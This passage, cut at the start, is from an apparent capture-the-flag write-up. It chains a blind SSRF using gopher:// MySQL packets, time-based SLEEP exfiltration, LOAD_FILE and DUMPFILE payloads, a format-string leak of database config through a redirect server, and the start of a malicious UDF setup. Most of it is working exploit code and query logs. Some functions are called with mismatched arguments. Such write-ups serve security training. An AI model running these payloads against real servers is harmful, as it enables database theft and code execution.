		] + list(bytearray(user)) + [                               # username                 string[NUL]
		0x00,                                                       # length of auth-response  int<1>
		0x00,                                                       # auth-response            string[n]
		] + list(bytearray('mysql_native_password')) + [            # auth plugin name         string[NUL]
		0x00                                                        # [NUL]
		] + list(bytearray(connect_attrs_data))                     # client_connect_attrs                           

	return ''.join(map(lambda x: '{:02x}'.format(x), list(auth_response_packet)))

def encode(data):
	packet = ''
	for i in range(len(data) / 2):
		packet += '%' + data[2*i:2*(i+1)]
	return unicode(packet)

def construct_query_packet(query):
	query = query.encode('hex')
	query_length = '{:x}'.format((len(query) / 2 ) + 1).rjust(2, '0')
	return encode(construct_handshake_response(db_user) + query_length + '00000003' + query + '0100000001') # COM_QUERY + len(query) + query


def send(packet):
	c = pycurl.Curl()

	c.setopt(c.URL, packet)
	c.setopt(c.TIMEOUT, 10)

	resp = c.perform_rs()
	c.close()

	return resp

print send('gopher://localhost:3306/_' + construct_query_packet('ssrf_user', 'SELECT SLEEP(1)'))
```

Since the SSRF is blind, we're going to utilise the `sleep()` function, subqueries and conditional statements to exfiltrate the database contents.

```python
import requests, struct, re, ast
from HTMLParser import HTMLParser

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

execute = lambda packet: requests.post(HOST, {'url': packet}).elapsed.total_seconds() > 0.4

def exfiltrate(func, sub=0, int_size=8):
	for i in reversed(range(0, int_size)):
		sub *= 2
		sub += int(func(i, sub))
	return chr(sub)

def exfil_sleep(user, packet, debug=True, **kwargs):
	def inner(shift, sub):
		if debug is True:
			print packet.format(shift=shift, slp_time='.5', **kwargs)
		return execute(construct_query_packet(user, packet.format(shift=shift, slp_time='.5', **kwargs)))
	return exfiltrate(inner)

def construct_handshake_response(user):
	connects_atrs_data = b''

	connect_attrs = {
		'_os': 'Linux',
		'_client_name': 'libmysql',
		'_pid': '1337',
		'_client_version': '5.7.29',
		'_platform': '_x86_64',
		'program_name': 'mysql'
	}

	for name, value in connect_attrs.items():
		connects_atrs_data += struct.pack('B', len(name)) + name    # len(CLIENT_CONNECT_ATTRS_name) + CLIENT_CONNECT_ATTRS_name
		connects_atrs_data += struct.pack('B', len(value)) + value  # len(CLIENT_CONNECT_ATTRS_value) + CLIENT_CONNECT_ATTRS_value

	connect_attrs_data = struct.pack('B', len(connects_atrs_data)) + connects_atrs_data # len(CLIENT_CONNECT_ATTRS)	+ CLIENT_CONNECT_ATTRS

	auth_response_packet = [
		0xa3 + len(user) - 4, 0x00, 0x00,                           # payload_length           int<3>
		0x01,                                                       # sequence_id              int<1>
		0x85, 0xa6, 0x3f, 0x20,                                     # capability_flags         int<4> SELECT * FROM performance_schema.session_connect_attrs WHERE processlist_id = CONNECTION_ID();
		0x00, 0x00, 0x00, 0x01,                                     # max_packet_size          int<4> 2 ** 24 -1
		0x08,                                                       # character_set            int<1>
		] + list(xrange(23)) + [                                    # reserved                 string[23]
		] + list(bytearray(user)) + [                               # username                 string[NUL]
		0x00,                                                       # length of auth-response  int<1>
		0x00,                                                       # auth-response            string[n]
		] + list(bytearray('mysql_native_password')) + [            # auth plugin name         string[NUL]
		0x00                                                        # [NUL]
		] + list(bytearray(connect_attrs_data))                     # client_connect_attrs                           

	return ''.join(map(lambda x: '{:02x}'.format(x), list(auth_response_packet)))

def encode(data):
	packet = 'gopher://0:3306/_'
	for i in range(len(data) / 2):
		packet += '%' + data[2*i:2*(i+1)]
	return unicode(packet)

def construct_query_packet(query):
	query = query.encode('hex')
	query_length = '{:x}'.format((len(query) / 2 ) + 1).rjust(2, '0')
	return encode(construct_handshake_response(db_user) + query_length + '00000003' + query + '0100000001') # COM_QUERY + len(query) + query


get_dbs = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(database_name) FROM mysql.innodb_table_stats), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_table_names_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x{db_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_column_names_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name=0x{tbl_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_column_contents_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT {column} FROM {db_name}.{tbl_name}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_privileges_from = 'SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(privilege_type) FROM information_schema.user_privileges WHERE grantee=0x{user}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_file = 'SELECT SLEEP((SELECT ASCII(substr((SELECT LOAD_FILE(0x{filename})), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_env = 'SELECT SLEEP((SELECT ASCII(substr((SELECT @@global.{env}), {index}, 1)) >> {shift} & 1) * {slp_time})'
create_file = 'SELECT {contents} INTO DUMPFILE "{filename}"'
get_env = 'SELECT SLEEP((SELECT ASCII(substr((SELECT @@global.{env}), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_command = 'SELECT SLEEP((SELECT ASCII(substr((SELECT {f}(0x{c})), {index}, 1)) >> {shift} & 1) * {slp_time})'
get_file_not_exists = 'SELECT SLEEP(isnull(LOAD_FILE(0x{file})))'

resp = HTMLParser().unescape(requests.post(HOST, {'url': 'http://host.docker.internal:1338/'}).text)

'''
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer

class MyServer(TCPServer):
	allow_reuse_address = True

class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest.__init__.__globals__[db_conf]}')
		return self.end_headers()

MyServer(('', 1338), HTTP_RequestHandler).serve_forever()
'''

db_conf = ast.literal_eval(re.sub(',([^,]*)>', '', re.search('{(.*)}', resp).group(0)))

db_name = db_conf.get('database')
db_user = db_conf.get('user')

def retrieve(payload, **kwargs):
	f, i = '', 0

	while True:
		i += 1
		c = exfil_sleep(payload, index=i, **kwargs)

		if c != b'\x00':
			f += c

		else:
			return f

print retrieve(get_table_names_from, db_name=db_name.encode('hex'))
```

Yields the following results;

```sql
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 1, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 2, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 3, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 4, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 5, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 6, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 7, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 8, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 9, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 10, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 11, 1)) >> 0 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 7 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 6 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 5 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 4 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 3 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 2 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 1 & 1) * .5)
SELECT SLEEP((SELECT ASCII(substr((SELECT group_concat(table_name) FROM mysql.innodb_table_stats WHERE database_name=0x64625f643734323433), 12, 1)) >> 0 & 1) * .5)
screenshots
```

We concur that the database doesn't hold the flag inside after poking around for a while, looking through the granted privileges we see that we have the `FILE` privilege and `USAGE` on `*.*`.

```
MariaDB [(none)]> select * from information_schema.user_privileges WHERE grantee LIKE '%user%';
+-------------------+---------------+-------------------------+--------------+
| GRANTEE           | TABLE_CATALOG | PRIVILEGE_TYPE          | IS_GRANTABLE |
+-------------------+---------------+-------------------------+--------------+
| 'user_accf30'@'%' | def           | SELECT                  | NO           |
| 'user_accf30'@'%' | def           | INSERT                  | NO           |
| 'user_accf30'@'%' | def           | UPDATE                  | NO           |
| 'user_accf30'@'%' | def           | DELETE                  | NO           |
| 'user_accf30'@'%' | def           | CREATE                  | NO           |
| 'user_accf30'@'%' | def           | DROP                    | NO           |
| 'user_accf30'@'%' | def           | RELOAD                  | NO           |
| 'user_accf30'@'%' | def           | SHUTDOWN                | NO           |
| 'user_accf30'@'%' | def           | PROCESS                 | NO           |
| 'user_accf30'@'%' | def           | FILE                    | NO           |
| 'user_accf30'@'%' | def           | REFERENCES              | NO           |
| 'user_accf30'@'%' | def           | INDEX                   | NO           |
| 'user_accf30'@'%' | def           | ALTER                   | NO           |
| 'user_accf30'@'%' | def           | SHOW DATABASES          | NO           |
| 'user_accf30'@'%' | def           | SUPER                   | NO           |
| 'user_accf30'@'%' | def           | CREATE TEMPORARY TABLES | NO           |
| 'user_accf30'@'%' | def           | LOCK TABLES             | NO           |
| 'user_accf30'@'%' | def           | EXECUTE                 | NO           |
| 'user_accf30'@'%' | def           | REPLICATION SLAVE       | NO           |
| 'user_accf30'@'%' | def           | REPLICATION CLIENT      | NO           |
| 'user_accf30'@'%' | def           | CREATE VIEW             | NO           |
| 'user_accf30'@'%' | def           | SHOW VIEW               | NO           |
| 'user_accf30'@'%' | def           | CREATE ROUTINE          | NO           |
| 'user_accf30'@'%' | def           | ALTER ROUTINE           | NO           |
| 'user_accf30'@'%' | def           | CREATE USER             | NO           |
| 'user_accf30'@'%' | def           | EVENT                   | NO           |
| 'user_accf30'@'%' | def           | TRIGGER                 | NO           |
| 'user_accf30'@'%' | def           | CREATE TABLESPACE       | NO           |
| 'user_accf30'@'%' | def           | DELETE HISTORY          | NO           |
+-------------------+---------------+-------------------------+--------------+
29 rows in set (0.001 sec)
```

The `secure-file-priv` directive is also not configured, meaning that we have arbitrary file creation on the filesystem, but we can't overwrite files.

<p align='center'>  
  
</p>


```
MariaDB [(none)]> SELECT @@global.secure_file_priv;
+---------------------------+
| @@global.secure_file_priv |
+---------------------------+
| NULL                      |
+---------------------------+
1 row in set (0.000 sec)
```

# [__One UDF to rule them all 💍__]()

User-Defined Functions allow MySQL to be extended with a new funnction that works like a native one, these functions can be registered through compiled shared libraries that are written in `C` or `C++`.

#### Defining UDFs

| Function         | Normal/Aggregate                     | Description
|------------------|--------------------------------------|------------
| `x_init()`       | Both                                 | Initialize the UDF for use. It is called for every statement that uses the UDF `x`
| `x_deinit()`     | Both                                 | De-initialize the function and clean up memory usage. It is called after the statement that used the UDF `x`
| `x()`            | Both                                 | The main body of the UDF `x`, the function that returns a result to the user. It is called for every row (or for every group of rows if the function is declared aggregate)
| `x_add()`        | Aggregate                            | Called for every row of the group
| `x_clear()`      | Aggregate                            | Called before the first row of every group
| `x_reset()`      | Aggregate (Unused since MySQL 4.1.1) | Called for the first row of every group. This function was doing the job of both `x_clear()` and `x_add()` for the first row-- starting a new group and processing the first row in this group. Since it could not handle the case of the empty group it was replaced by `x_clear()`

Whereas;
1. `x_init(UDF_INIT *initid, UDF_ARGS *args, char *message);` is the constructor.
2. `x_deinit(UDF_INIT *initid);` is the destructor.
3. `x(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error);` is the main function.

When calling a UDF inside MySQL, firstly `x_init()` is called with the following prototype:

```c
my_bool x_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
```

The function should be used to check the metadata of the UDF arguments, such as their types and prepare the UDF for execution. Typically for MySQL, the `x_init()` function should return `0` for success and `-1` for failure. In the latter case, an error message should be written into the buffer pointed to by `message`. Two other arguments of this function are `args`, which contains the metadata of the UDF arguments, and `initd`, which is used to return the metadata of the result and to preserve the internal UDF context between the calls. A pointer to the `UDF_INIT` structured, `initid` is passed as a first argument to all C functions that implement the UDF, and it can be used to store the context of the execution and share it between the different functions calls. The second purposed of `UDF_INIT` is to allows us to tell MySQL about the metadata of the UDF result.

| Member         | Type          | Description
|----------------|---------------|------------
| `const_item`   | my_bool       | Set to 1 if the UDF will always return the same result in this query
| `decimals`     | unsigned int  | Number of digits after decimal point in the UDF result
| `max_length`   | unsigned long | The maximum length of the UDF return result
| `maybe_null`   | char          | Set to 1 if the UDF can return `NULL` in this query
| `ptr`          | char *        | A free-to-use pointer. Reserved for internal UDF use

```c
typedef struct UDF_INIT {
  bool maybe_null;          /** 1 if function can return NULL */
  unsigned int decimals;    /** for real functions */
  unsigned long max_length; /** For string functions */
  char *ptr;                /** free pointer for function data */
  bool const_item;          /** 1 if function always returns the same value */
  void *extension;
} UDF_INIT;
```

The second argument of the `x_init()` function is a pointer to the `UDF_ARGS` structure, it contains the metadata of the arguments that have been passed from MySQL to the UDF. It has pointed to the arguments values too, but only the values of the constant arguments are filled in at time when `x_init()` is called.

| Member               | Type              | Description
|----------------------|-------------------|------------
| `args_count`         | unsigned int      | The number of arguments passed to the UDF. All arrays below will be of this length
| `args_type`          | enum Item_result* | An array of types of the arguments
| `args`               | char**            | An array of pointers to the arguments values
| `lengths`            | unsigned long*    | An array of lengths of each argument value
| `maybe_null`         | char*             | An array indicating wether each argument can be `NULL` in this query
| `attributes`         | char**            | An array of names of the arguments
| `attributes_lengths` | unsigned long*    | An array of lengths of each argument name

```c
/**
Type of the user defined function return slot and arguments
*/

enum Item_result {
  INVALID_RESULT = -1, /** not valid for UDFs */
  STRING_RESULT = 0,   /** char * */
  REAL_RESULT,         /** double */
  INT_RESULT,          /** long long */
  ROW_RESULT,          /** not valid for UDFs */
  DECIMAL_RESULT       /** char *, to be converted to/from a decimal */
};

typedef struct UDF_ARGS {
  unsigned int arg_count;
  enum Item_result *arg_type;
  char **args;
  unsigned long *lengths;
  char *maybe_null;
  char **attributes;
  unsigned long *attribute_lengths;
  void *extension;
} UDF_ARGS;
```

Now we can start coding our UDF library, first we'll get the OS and architecture of the remote MySQL instance.

```sql
MariaDB [(none)]> select @@version_compile_os, @@version_compile_machine;
+----------------------+---------------------------+
| @@version_compile_os | @@version_compile_machine |
+----------------------+---------------------------+
| debian-linux-gnu     | x86_64                    |
+----------------------+---------------------------+
1 row in set (0.001 sec)
```

